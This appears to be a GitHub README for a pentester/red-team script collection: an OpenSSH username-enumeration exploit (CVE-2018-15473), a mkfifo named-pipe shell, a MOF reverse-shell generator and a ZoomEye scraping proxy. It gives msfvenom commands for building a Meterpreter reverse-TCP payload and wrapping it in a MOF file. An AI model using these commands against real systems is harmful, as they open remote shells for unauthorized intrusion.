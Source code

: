 A collection of some useful script for pentesters or red teamers


## [sshUsernameEnumExploit.py](https://github.com/Malayke/Scripts/tree/master/CVE-2018-15473-sshUsernameEnumExploit)

OpenSSH < 7.7 username enumeration exploit  
OpenSSH 版本小于7.7 用户名枚举漏洞利用工具 

## HTTPPutServer.py

A simple HTTP PUT Server write by python  

用 Python 写的 HTTP PUT Server

## web-rce-named-pipe-shell.py

A named pipe tty shell via mkfifo.

## generate-mof-reverse-shell-file.py

This python script can generate a MOF reverse shell file.

First step, generate vbs reverse shell shellcode via `msfvenom`

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e generic/none -f vbs -o reverse_shell.vbs
```

then generate MOF file: 

```
$ python3 generate-mof-reverse-shell-file.py reverse_shell.vbs > reverse_shell.mof
```
## mitmproxy-zoomeye.py

Mitmproxy zoomeye proxy, grab zoomeye search hosts to file
> before start import `~/.mitmproxy/mitmproxy-ca-cert.pem` to firefox
1. start mitmproxy
```shell
$ mitmdump -s zoomeye.py "~d zoomeye.org & '/search'"
```
2. set browser proxy with mitmproxy address
3. searching on zoomeye, result will be save in result.txt
